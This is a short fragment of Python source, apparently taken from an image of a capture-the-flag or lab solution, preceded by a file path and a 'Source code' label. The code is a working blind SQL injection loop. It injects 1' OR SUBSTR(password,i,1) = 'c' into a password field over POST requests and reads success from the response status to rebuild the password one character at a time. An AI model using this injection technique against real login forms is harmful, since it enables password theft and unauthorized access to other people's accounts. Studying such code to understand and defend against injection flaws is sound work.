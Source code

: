 ```python
        if c == "%" or c == "_" or c == '\n':
            continue
        payload["password"] = f"1' OR SUBSTR(password,{i}, 1) = '{c}"

        # Send the POST request
        response = requests.post(url, data=payload)

        if response.status_code == 200:
            pw += c
            i += 1
            print(pw)
            break
```
